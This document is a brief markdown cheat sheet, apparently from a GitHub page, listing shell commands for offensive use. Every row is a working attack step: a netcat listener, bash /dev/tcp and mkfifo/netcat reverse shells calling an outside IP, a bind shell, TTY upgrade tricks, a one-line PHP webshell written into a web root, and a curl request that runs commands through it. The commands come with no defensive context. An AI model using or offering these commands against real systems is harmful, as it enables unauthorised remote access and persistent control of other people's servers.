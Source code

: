 ## Shells cheatsheet

|Command|Description|
|---|---|
|nc -lvnp 1234|Start a nc listener on a local port|
|bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'|Send a reverse shell from the remote server|
|rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f|Another command to send a reverse shell from the remote server|
|rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f|Start a bind shell on the remote server|
|nc 10.10.10.1 1234|Connect to a bind shell started on the remote server|
|python -c 'import pty; pty.spawn("/bin/bash")'|Upgrade shell TTY (1)|
|ctrl+z then stty raw -echo then fg then enter twice|Upgrade shell TTY (2)|
|echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php|Create a webshell php file|
|curl http://SERVER_IP:PORT/shell.php?cmd=id|Execute a command on an uploaded webshell|